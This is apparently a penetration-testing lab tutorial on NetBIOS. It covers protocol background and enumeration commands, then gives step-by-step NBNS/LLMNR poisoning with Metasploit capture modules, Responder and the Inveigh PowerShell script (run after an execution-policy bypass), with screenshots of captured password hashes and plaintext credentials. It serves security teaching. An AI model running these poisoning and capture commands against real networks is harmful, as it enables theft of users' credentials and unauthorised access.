# NetBIOS

## NetBIOS usually uses ports 137,138,139

### NetBios Name Service

-   Name service for name registration and resolution (ports: 137/udp and 137/tcp).
-   Datagram distribution service for connectionless communication (port: 138/udp).
-   Session service for connection-oriented communication (port: 139/tcp).
```
PORT STATE SERVICE VERSION
137/udp open netbios-ns Microsoft Windows netbios-ns (workgroup: WORKGROUP)
```
## What is NetBIOS?



NetBIOS provides network input/output services to support client/server applications on a network. From an architectural viewpoint, the NetBIOS specification defines two things:

-   An interprocess communication (IPC) mechanism or application programming interface (API) that allows applications that are NetBIOS-enabled to communicate remotely over a network and request services from lower levels of the protocol stack. This is the primary and original definition of NetBIOS.
-   A protocol operating at the session and transport layers of the Open Systems Interconnection reference model ([7 layers OSI reference model](https://networkencyclopedia.com/7-layers-osi-model/)) that enables functions such as session establishment and termination as well as name registration, renewal, and resolution.

NetBIOS has more overhead than other IPC mechanisms. It can take different forms depending on the network protocol on which it is running. The following table lists some common network protocols and the form that NetBIOS takes on each.

NetBIOS Protocol Stacks

| **Network Protocol**                | **Name When Combined with NetBIOS** |
|-------------------------------------|-------------------------------------|
| NetBEUI                             | NBF (NetBEUI Frame protocol)        |
| NWLink IPX/SPX-Compatible Transport | NWLink NetBIOS                      |
| TCP/IP                              | NetBT (NetBIOS over TCP/IP)         |

Confusion between NetBIOS and NetBEUI

There still is a relatively popular confusion between the names **NetBIOS** and **NetBEUI**. NetBEUI originated strictly as the moniker for IBM’s enhanced 1985 NetBIOS emulator for token ring. The name NetBEUI should have died there, considering that at the time, the NetBIOS implementations by other companies were known simply as NetBIOS regardless of whether they incorporated the API extensions found in that emulator. For MS-Net, however, Microsoft elected to name its implementation of the NBF protocol “NetBEUI” – literally naming its implementation of the transport protocol after IBM’s second version of the API.



Consequently, even today, Microsoft file and printer sharing over Ethernet continues to be called NetBEUI, with the name NetBIOS commonly used only in reference to file and printer sharing over TCP/IP. In truth, the former is the NetBIOS Frames protocol (NBF), and the latter is NetBIOS over TCP/IP (NBT).

NetBIOS Pentesting

| ** Shodan search query :** |
|---------------------------------------------------------------------------|
| port:137                                                                  |
| NetBIOS Response                                                          |
| NetBIOS                                                                   |

To discover the IP address of a Name, a PC has to send a “Name Query” packet and wait if anyone answers. If there is a Name Service server, the PC can ask it for the IP of the name.

## Banner Grabbing

Enumerating a NetBIOS service you can obtain the names the server is using and the MAC address of the server.
```
nmblookup -A 192.168.x.x 
sudo nbtscan 192.168.x.x/24 
sudo nmap -Pn -sU -sV -p137--script nbstat.nse 192.168.x.x 
```






## Datagram Distribution Service

NetBIOS datagrams are sent over UDP. A datagram is sent with a “Direct Unique” or “Direct Group” packet if it’s being sent to a particular NetBIOS name, or a “Broadcast” packet if it’s being sent to all NetBIOS names on the network.
```
PORT STATE SERVICE VERSION 
138/udp open\|filtered netbios-dgm
```
## Session Service

Session mode lets two computers establish a connection for a “conversation”, allows larger messages to be handled, and provides error detection and recovery.



With nmap, operating systems (not versions), MAC addresses and host names of the systems can be listed.
```
sudo nmap -sU --script nbstat.nse -p137 192.168.12.70
```
Enumeration NetBios service with nbtstat.nse script.
```
msf\> use auxiliary/scanner/netbios/nbname
```
Enumeration NetBios service with Metasploit Framework.
```
nbtscan -hvr 192.168.12.0/24 -m 4
```
Enumeration NetBios service with nbtscan tool.
```
nbtscan-unixwiz -f 192.168.12.70/24
```
nbtscan-unixwiz output.

Shares can be listed.
```
Windows: net view \\\\TargetNetBIOSName
```
Shares listed with net view command.

Sharing can be mapped.
```
Windows: net use T: \\\\TargetNetBIOSName\\SharedFolder
```
Shares mapped with net use command.

Other Information Gathering Methods for Different Platforms
```
nmap --script=broadcast-netbios-master-browser 10.10.x.x 
msf\> use auxiliary/scanner/netbios/nbname_probe (deprecated) \
# on Windows nbtstat -A 10.10.x.x nbtstat -c
```
## NetBIOS Poisoning

NetBIOS Poisoning with Metasploit

For protocols such as SMB and HTTP, various modules are available on the Metasploit Framework that can capture the handshake authentication issue. Capturing the password hash over SMB requires using the auxiliary/server/capture/smb module
```
msf6\> use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) \> set SRVHOST 192.168.56.104 \# Attacker IP
msf6 auxiliary(server/capture/smb) \> set logfile /tmp/logfile
msf6 auxiliary(server/capture/smb) \> set johnpwfile /tmp/john-smb
msf6 auxiliary(server/capture/smb) \> set cainwpfile /tmp/cain-smb
msf6 auxiliary(server/capture/smb) \> run 
```
SMB Server listener

The Metasploit framework’s capture module for NTLM authentication query over HTTP can be configured as follows:

| 1 2 3 4 5 6 7 8  | msf6 auxiliary(server/capture/smb) \> use auxiliary/server/capture/http_ntlm msf6 auxiliary(server/capture/http_ntlm) \> set SRVHOST 192.168.56.104 msf6 auxiliary(server/capture/http_ntlm) \> set SRVPORT 80 msf6 auxiliary(server/capture/http_ntlm) \> set URIPATH / msf6 auxiliary(server/capture/http_ntlm) \> set cainwpfile /tmp/cain-smb msf6 auxiliary(server/capture/http_ntlm) \> set johnpwfile /tmp/john-smb msf6 auxiliary(server/capture/http_ntlm) \> set logfile /tmp/logfile msf6 auxiliary(server/capture/http_ntlm) \> run  |
|------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

HTTP Server listener

The auxiliary/spoof/nbns/nbns_response module creates NetBIOS broadcast requests over the network and sends NetBIOS name service responses to hosts.
```
msf6 auxiliary(server/capture/http_ntlm) \> 
use auxiliary/spoof/nbns/nbns_response 
msf6 auxiliary(spoof/nbns/nbns_response) \> set SPOOFIP 10.10.x.x \# Target IP address 
msf6 auxiliary(spoof/nbns/nbns_response) \> run
```
Spoofing target machine with NBNS Response.

When a network user will attempt to use the NetBIOS broadcast request to identify a resource the traffic will redirected to the attacker host and the password hash will be captured. It’is not worked my demo lab. I think it’s about virtual environment. But i shared expected result from pentestlab.com guide.

My demo outputs.

expected result hash captured with Metasploit Framework. \| From pentestlab.com

NetBIOS Poisoning with responder

Running the tool with the following arguments will initiate poisoning against various protocols that require authentication.
```
sudo responder -I eth0 -wFb
```


Now we just wait for an incorrect domain name or an obsolete resource (IP Address) to be entered. In the scenario here, I turned off the Domain Controller that I had previously configured as File Server, and therefore the victim windows could not reach that IP address.





Let’s say the Domain Controller is not turned off, but this scenario will work even if the victim tries to go to a non-existent address. On one condition. In the DNS server settings of the room victim machine, the Domain Controller should not write the address. Since the IP address of the Domain Controller on the victim’s computer is not in the DNS records, LLMNR will cause broadcast broadcasting. No matter what we write, it is enough that it is not registered in the Domain Controller.

Also, when the victim windows device tries to navigate to any web page in the browser, it will pop up an active directory login form. So you will enter the victim account information and you can get the plaintext password

Poisened victim machine log.

Victim Machine - After trying to open the browser the authentication form satisfies.

Captured credentials via plaintext.

## NetBIOS Poisoning with Powershell on victim Machine

You can poison the Netbios with a PowerShell script called [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on a windows device that you have seized during the tests. This script is part of Empire, PoshC2 and other tools and can be configured as follows:
```
Set-ExecutionPolicy bypass 
Import-Module .\\Inveigh.ps1 
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y
```
Importing Inveigh module en executing command. There is some captured package info. (NBNS Spoofing)

The password hash of the user will be captured like Responder and Metasploit.

Hashes via Inveigh

Information Gathering with enum4linux
```
enum4linux -a 10.10.x.x
```
Information gathering with enum4linux

## Common NetBIOS Vulnerabilities

MS16-063: Cumulative Security Update for Internet Explorer [CVE-2016-3205] [CVE-2016-3206] [CVE-2016-3207]
```
MSF: auxiliary/server/netbios_spoof_nat
```
MS16-077: Security Update for WPAD [CVE-2016-3213] [CVE-2016-3236] [CVE-2016-3299]
```
MSF: auxiliary/server/netbios_spoof_nat
```
